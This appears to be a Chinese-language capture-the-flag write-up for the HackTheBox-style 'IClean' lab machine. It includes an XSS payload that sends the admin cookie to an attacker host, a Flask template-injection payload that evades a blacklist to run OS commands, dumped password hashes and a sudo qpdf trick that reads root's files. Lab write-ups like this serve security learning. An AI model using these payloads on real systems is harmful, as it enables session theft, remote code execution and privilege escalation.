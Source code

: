 # \[level:Medium] IClean

## 一 、信息收集

| 靶机信息 |                       |
| ---- | --------------------- |
| IP   | 10.129.99.246         |
| 域名   | http://capiclean.htb/ |

### 1.1 nmap扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ nmap -Pn 10.129.99.246
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-10 22:50 CST
Nmap scan report for capiclean.htb (10.129.99.246)
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 122.72 seconds
```

### 1.2 url目录扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ dirsearch -u http://capiclean.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/a1ertx5s/reports/http_capiclean.htb/__24-04-10_23-08-03.txt

Target: http://capiclean.htb/

[23:08:03] Starting: 
[23:09:40] 200 -    5KB - /about
[23:12:01] 302 -  189B  - /dashboard  ->  /
[23:13:22] 200 -    2KB - /login
[23:13:25] 302 -  189B  - /logout  ->  /
[23:14:45] 403 -  278B  - /server-status
[23:14:46] 403 -  278B  - /server-status/
[23:14:46] 200 -    8KB - /services

Task Completed
```

扫描结果没啥用, 就一个dashboard值得关注.

### 1.3 指纹信息

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

开发框架是Flask,猜测漏洞为模板注入.

### 二、渗透过程

### 2.1 XSS获取管理员cookie

随便逛逛可以发现有一个quote页面,页面可以给管理员留言,尝试是否存在xss,能否利用xss获取管理员cookie.

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>burp suite 抓包</p></figcaption></figure>

其中exp是url encode过的.

```html
<img src=x onerror=fetch("http://hackIP:Port/?cookie="+document.cookie);>
```

可以使用python3的http server进行cookie的捕获,结果如下

```
┌──(a1ertx5s㉿kali)-[~]
└─$ python3 -m http.server 959
Serving HTTP on 0.0.0.0 port 959 (http://0.0.0.0:959/) ...
10.129.99.246 - - [10/Apr/2024 23:21:57] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhaHiw.vNyGcFEurcPrFcHAjqEJsNVRkFo HTTP/1.1" 200 -
```

成功获取cookie, 将cookie加入到header中,再去访问dashboard.

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

成功进入到dashboard页面.

### 2.2 Flask SSTI 反弹shell

开发框架是Flask,猜测漏洞为模板注入.

在Generate invoice下生成一个id,然后到Gnerate QR下尝试.

<figure><img src="../.gitbook/assets/4ac119a9433cd746fa3d45d2e9b96d7.png" alt=""><figcaption></figcaption></figure>

可以发现qr\_link字段存在模板注入.一般的模板注入在这里是失效的,应该是存在黑名单之类的过滤手段,这里使用resquet和attr组合进行绕过,exp如下:

```
{{ request | attr("application") | attr("\x5f\x5fglobals\x5f\x5f") | attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os") | attr("popen")("uname -a") | attr("read")() }}
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

接下来就利用这个注入点反弹shell,需要进行url encode.

<figure><img src="../.gitbook/assets/0f9992e7611a8efaed1c3810592ce7c.png" alt=""><figcaption></figcaption></figure>

成功获取www-data权限,查看app.py文件,发现数据库相关信息.

<figure><img src="../.gitbook/assets/86edeef6eb3de119a224042dbc60d82.png" alt=""><figcaption></figcaption></figure>

连接数据库,在user表下发现账号以及口令的hash值.

```
select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
```

爆破得出结果, 密码是 simple and clean

<figure><img src="../.gitbook/assets/3018cd77605f4215a32ef3b030ea3b7.png" alt=""><figcaption></figcaption></figure>

ssh 登录,获得user flag.

<figure><img src="../.gitbook/assets/665323368e4946e5b19a4929230adc8.png" alt=""><figcaption></figcaption></figure>

### 2.3 sudo提权

sudo -l 查看具有root权限的指令.

<figure><img src="../.gitbook/assets/da89770f5e2ae6a35555b34f6f475b0.png" alt=""><figcaption></figcaption></figure>

有一个qpdf程序有root权限,去google一下这个指令.

存在以下选项,可以向一个文件中添加附件.

<figure><img src="../.gitbook/assets/0ef87c4bf94c4c1850455af7783470a.png" alt=""><figcaption></figcaption></figure>

```
sudo /usr/bin/qpdf --empty ./root.txt --add-attachment /root/root.txt --
```

<figure><img src="../.gitbook/assets/978937122f00994d9d0ab5d9095b71f.png" alt=""><figcaption></figcaption></figure>

发现其中root.txt的部分出现了乱码.

再度查看qpdf的文档,发现存在qdf指令,可以使pdf可用text进行查看.

<figure><img src="../.gitbook/assets/5e57302ba3ad4d49b2f7333bb0b81d5.png" alt=""><figcaption></figcaption></figure>

```
sudo /usr/bin/qpdf --qdf --empty ./root.txt --add-attachment /root/root.txt  --
```

成功获取root flag.

<figure><img src="../.gitbook/assets/d6534a98f4e0b5154c3cb0b223947ea.png" alt=""><figcaption></figcaption></figure>
